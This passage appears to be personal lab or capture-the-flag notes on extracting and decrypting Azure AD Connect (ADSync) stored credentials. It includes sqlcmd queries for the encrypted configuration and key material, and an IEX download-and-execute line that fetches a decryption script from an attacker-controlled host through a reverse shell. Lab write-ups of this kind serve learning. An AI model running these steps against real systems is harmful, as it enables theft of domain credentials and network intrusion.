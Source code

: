 With #SQLCMD grab the private config xml 

`sqlcmd -Q "Use ADSync; select private_configuration_xml FROM mms_management_agent"`

Get some details like forest login, forest domain, etc. 
![[Pasted image 20241222205322.png]]

Grab the encrypted info as well to display the encrypted password!

`sqlcmd -Q "Use ADSync; select private_configuration_xml, encrypted_configuration FROM mms_management_agent"`

![[Pasted image 20241222205657.png]]
Going back to that blogpost to figure out how to decrypt the password..author has a POC to decrypt it. 

![[Pasted image 20241222210040.png]]
Copy and paste this POC script to a file on Parrot box called `decrypt.ps1` or `decrypt.sh` for syntax highlighting in vim.

Need to query `keyset_id, instance_id, and entropy`
using sqlcmd again to fill values from decryption script. 

```
sqlcmd -Q "Use ADSync; select keyset_id, instance_id, entropy FROM mms_server_configuration"
```
![[Pasted image 20241222210459.png]]

Dropping this script onto reverse shell using #IEX

First serve up the script with #pythonhttpserver 

`python3 -m http.server`

Grab it 

`IEX(New-Object Net.WebClient).downloadString(http://10.10.14.2:8000/decrypt.ps1')`

This crashes winrm for some reason

![[Pasted image 20241222211106.png]]
Going to figure out which part of the script is failing by copying and pasting each line of the script into remote shell one by one. 

![[Pasted image 20241222211240.png]]
Literally line 2 `$client.Open()` caused an error, but that was the only problem. 

![[Pasted image 20241222211351.png]]
Looks like PoC script is for a remote connection, but we are doing a local connection. 

Googling other methods to connect to SQL server..

`$sqlConn = New-Object System.Data.SqlClient.SqlConnection`

`$sqlConn.ConnectionString = "Server=localhost\sql12; Integrated Security=true; Initial Catalog=master"`

